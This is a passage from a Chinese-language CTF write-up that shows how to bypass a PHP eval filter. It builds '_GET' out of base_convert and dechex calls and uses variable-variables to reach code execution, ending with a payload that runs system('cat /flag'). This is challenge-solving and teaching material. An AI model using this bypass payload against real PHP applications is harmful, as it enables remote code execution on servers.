 但是只有小写，而且很多特殊符号都被过滤了(特别是单引号)，显然是不行的，这个时候就需要用别的输入来绕过一下过滤了
得到了所有字母，就有了**hex2bin**
开始想着就通过**base_convert**来构造**hex2bin**，然后再用**bin2hex**将想输入的字符串转为十六进制，而十六进制有字母，再把16进制的字符通过36进制转为十进制，再用**base_convert**转为刚刚的十六进制从而实现rce，而且我成功在本地环境回显了(😴😴)![image-20220731224003384](D:\Typora\note\CTF\web\ciscn.assets\image-20220731224003384.png)

### 转换思路

但是题目是残酷的，有限制长度，我这已经爆爆爆长了
所以只能换个思路，再在能用的函数里面找找可以进制转换的，但是只能是几进制转换为十六进制的，不然基本没用
直接搜**hex**，找到一个**dechex**，十进制转换为十六进制的，符合需求

接下来就是构造，我构造出了一个

```php
base_convert(37907361743,10,36)(dechex(2620891871246496093))()$1=phpinfo

echo base_convert(37907361743,10,36)(dechex(2620891871246496093));
// $_GET[1]

但是报错
Fatal error: Uncaught Error: Call to undefined function $_GET[1]() in E:\phpstudy_pro\WWW\test\1.php(3) : eval()'d code:1 Stack trace: #0 E:\phpstudy_pro\WWW\test\1.php(3): eval() #1 {main} thrown in E:\phpstudy_pro\WWW\test\1.php(3) : eval()'d code on line 1
```

显然这样是不行的 /list
又要换个思路，就想到了之前这种转了字符之后貌似不是这样用的，而是用把一个值当作这个字符，这里就把`$_GET[1]换成$_GET`
然后令**$abs=$_GET**，这时`$abs[1]();&1=phpinfo`才能正常执行
经本地测试

```php
?c=$a=$_GET;$a[1]();&1=phpinfo
    成功回显
?c=$a=base_convert(37907361743,10,36)(dechex(156217328980));$a[1]();&1=phpinfo
    报错
然后本地试了之后，第一个的$a是被当成数组了,等同$_GET,而第二个只是字符串,这就不行了
```

那我该怎么写？？？

### 最后

想到了平常变量覆盖会用到的思想

```
如果让$a=_GET  那 $$a=$_GET  那$$a[1]=$_GET[1]啦??
```

![image-20220731234148155](D:\Typora\note\CTF\web\ciscn.assets\image-20220731234148155.png)

成功回显！！！！！！！~(芜湖🤪)
然后在php8之前，大括号是可以用中括号代替的，这也就是为什么我本地(php8)试不行(php7)试可以的原因
最终的payload

```php
?c=$abs=base_convert(37907361743,10,36)(dechex(1598506324));$$abs{1}($$abs{2});&1=system&2=cat%20/flag
```
